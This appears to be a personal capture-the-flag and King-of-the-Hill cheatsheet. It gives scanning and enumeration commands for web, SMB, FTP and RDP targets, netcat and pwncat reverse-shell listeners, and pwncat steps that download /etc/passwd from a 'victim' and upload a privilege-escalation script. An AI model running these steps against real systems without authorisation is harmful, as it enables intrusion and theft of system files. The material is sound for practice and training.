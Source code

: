 <h1>PFORM - CTF / KOTH - Cheatsheet</h1>

<h2>Change IP on all scripts in a folder</h2>

If you like me have a folders with reverse-shells and scripts for your CTF / Koth needs,

and your IP changes just before the game starts, and no script have the correct ip.

<b>pform@attacker~: </b><code>cd script-folder/</code>

<b>pform@attacker~script-folder/:<code> grep -rl old-ip * | xargs sed -i 's/old-ip/new-ip/g'</code>


<h2>RECON</h2> 

<b>pform@attacker~: </b><code>rustscan -A IP</code>

<b>pform@attacker~: </b><code>sudo nmap -Pn -sV -sC -oN nmap.log IP</code>

<b>pform@attacker~: </b><code>gobuster -dir -e php,html,htm,txt,log,conf,flag -u http://IP -w /usr/share/wordlists/directory-list-2.3-medium.txt</code>

<b>pform@attacker~: </b><code>nikto -Display 1234EP -o report.html -Format htm -Tuning 123bde -host IP</code>

<h2>SMB</h2>

<b>pform@attacker~: </b><code>smbmap -H IP</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\IP</code>

<b>pform@attacker~: </b><code>smbclient -L \\\\IP\\C$ -U guest -W WORKGROUP</code>


<h2>FTP</h2>

Is the host vuln to anonymous login?

<b>pform@attacker~: </b><code>ftp IP</code>

<b>pform@attacker~: </b>Login: <code>anonymous</code> Password: <code>anonymous</code>

Dont forget to check for hidden directory´s  somethimes they hide them in plain sight like this:

<b>pform@attacker~: </b><code>ls -la</code>

drwxr-xr-x pform pform 0069 Dec 32 00:00 .

drwxr-xr-x pform pform 0069 Dec 32 20:00 ..

drwxr-xr-x pform pform 0069 Dec 32 00:00 ... <b>  < - - - - - - - - - - - - ( 3 dots )</b>

-rw-r--r-x pform pform 0069 Dec 32 00:00 random-stuff.txt


<h2>RDP</h2>

I think remmina is slow, compared to xfreerdp. 

<b>+clipboard</b> makes it possible to copy from <b>attacker machine</b> to <b>victim machine</b>

<b>pform@attacker~: </b><code>xfreerdp +clipboard +window-drag /u:username /p:password /v:IP</code>

<h2>Listners</2>

<b>Netcat</b>

<b>pform@attacker~: </b><code>nc -lnvp 5555</code>

<b>pwncat</b> <code>git clone https://github.com/calebstewart/pwncat.git; cd pwncat</code>

<b>pform@attacker~: </b><code>pwncat -l -p 5555</code>
  
I prefer pwncat as you can just press<b>"CTRL+D"</b> and download and upload files like this:

<b>pform@local~: </b><code>download /etc/passwd</code>

<b>pform@local~: </b><code>upload ~/super-ninja-scripts/hightech-privesc-0day.py</code>

Then Press <b>"CTRL+D"</b> again to return to the reverse-shell.
